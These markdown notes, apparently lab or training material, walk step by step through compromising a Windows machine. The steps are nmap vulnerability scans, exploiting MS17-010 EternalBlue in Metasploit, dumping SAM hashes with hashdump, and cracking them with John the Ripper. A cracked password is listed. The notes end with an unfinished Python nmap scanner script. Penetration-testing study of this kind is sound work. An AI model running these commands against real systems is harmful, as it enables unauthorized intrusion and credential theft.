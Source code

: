 # System Compromise

 - Detect the IPs using arp scan 
 - ```sudo nmap -O  (ip)```
 - Hopping- The intermediate servers interconnecting the path to final destination domain are strolled on by the request
 - ```nmap -A -vvv angryip.org```- traceroute at the end
 - Scan the Windows Machine IP
 - ```sudo nmap -Pn -sV --script vuln -oN  Winnpsv.txt```
 - We are Able to list the ports with the services running on them and the vulnerability with SMB
 - check for the services of those ports in tcp_udp wiki and on 445 port we find the service SMB
 - Copy the Vulnerability name and search for it
 - Rapid7(Creators of Rapid7) Article is seen.
 - ```searchsploit smb-vuln-ms17-010```
 - ```sudo msfconsole -q```
 - (-q for no banner)
 - ```search ms17-010```
 - ```use 0```
 - ```show options```
 - set the Lhost and Rhost using set RHOST ---- and set LHOST ----
 - ```exploit```
 - ```--help```
 - ```hashdump```(dumps the content of SAM Data base in has format)
 - Copy the contents of John and creat a file to save it
 - Now we use Johntheripper
 - ```john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT hasn-win7```(SAM database is encrypted with NTLM)
 - password-alqfna22
## Automation
 - [ ] [autoscan/MS17-010 EternalBlue at main · vaishnavucv/autoscan (github.com)](https://github.com/vaishnavucv/autoscan/tree/main/MS17-010%20EternalBlue)
 - [ ]  We will see how to automate scan with coding
 - [ ]  After Downloading the script with wget.
 - [ ] Give the Execution permissions
 - [ ] Run the ms17-010-scanner.sh(./)
 - [ ] Now  Enter the Values asked
 - [ ] The automated process takes place
 - [ ] ```import subprocess
import re

def main():
    # Ask for the IP address and scan file name
    scan_ip = input("Enter the IP address to scan: ")
    scan_name = input("Enter the scan report file name: ")

    # Perform the scan without showing output in the terminal
    print(f"Scanning {scan_ip} for vulnerabilities on port 445, please wait...")
    subprocess.run(["nmap", "--script", "smb-vuln-ms17-010", "-p445", scan_ip, "-vv", "-oN", scan_name], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
